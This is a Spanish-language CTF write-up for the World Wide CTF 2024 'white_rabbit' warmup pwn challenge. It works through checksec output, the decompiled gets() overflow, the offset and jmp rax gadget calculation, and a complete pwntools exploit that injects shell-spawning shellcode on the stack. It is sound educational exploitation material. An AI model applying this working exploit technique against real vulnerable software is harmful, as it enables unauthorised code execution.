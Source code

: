```yaml
---
date: 2024-12-01
tier: warmup
author: naibu3
ctf: World Wide CTF
---
```

# Overview

Este es el reto de calentamiento de pwn de la World Wide CTF de 2024. Dado a la cantidad de trabajo que tenía no pude darle mucho tiempo a esta competición, pero he de decir que estuvo muy entretenida y tenía un nivelazo!

La descripción decía así:

	Just a nice easy warmup for you...

# Reconocimiento

Como nos dan sólo un binario (`64-bits LSB`), comenzamos lanzando [[checksec]]:

```
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : ENABLED
RELRO     : Partial
```

Vemos que tenemos el **bit NX desactivado**, lo que nos indica que podemos ejecutar código en el stack. Descompilando con [[ghidra]]:

```c
int main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  puts("\n  (\\_/)");
  puts(&DAT_0010200d);
  printf("  / > %p\n\n",main);
  puts("follow the white rabbit...");
  follow();
  return 0;
}
```

Vemos que nos dan la función de `main`, con lo que podemos saltar el **PIE**. Además la función follow contiene una vulnerabilidad de tipo [[Buffer overflow]]:

```c
void follow(void) {
  char buf [100];
  
  gets(buf);
  return;
}
```

# Explotación

Con esta información, podemos tratar de introducir un *shellcode* en el stack y ejecutarlo con un gadget como `jmp eax`. Podemos calcular el offset hasta el *RIP* con cyclic y la dirección del gadget con [[ropper]]:

```bash
gdb-peda$ !pwn cyclic -l faabgaab

120
```

```bash
ropper -f white_rabbit | grep "jmp"

0x00000000000010bf: jmp rax; 
```

Como la protección *PIE* está activada, debemos calcular la dirección del gadget relativa a `main`, para ello, tomamos la dirección que obtenemos de [[gdb]] y le restamos la que nos da ropper:

```
0x0000000000001180 - 0x00000000000010bf = 0x00c1
```

A la hora de utilizar el gadget, utilizaremos la dirección de *main* que nos dan menos `0x00c1`:

```python
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Set up pwntools for the correct architecture
exe = './white_rabbit'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'


# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

io.recvuntil(b'> ')

main = io.recvuntil(b'\n') #Get the address of main from leak

JMP_RAX = int(main, 16) - 0xc1 #Calculate the address of the jmp rax gadget

payload = asm(shellcraft.sh())        # front of buffer <- RAX points here
payload = payload.ljust(120, b'A')    # pad until RIP
payload += p64(JMP_RAX)               # jump to the buffer - return value of gets()

io.sendline(payload)
io.interactive()
```

Podemos hacer que [[pwntools]] tome directamente la dirección del propio gadget de la memoria (aunque es interesante saber cómo obtenerla manualmente):

```python
JMP_RAX = jmp_rax = next(elf.search(asm('jmp rax')))
```

Y tras ejecutar deberíamos obtener una shell. Vaya reto para empezar en caliente!!!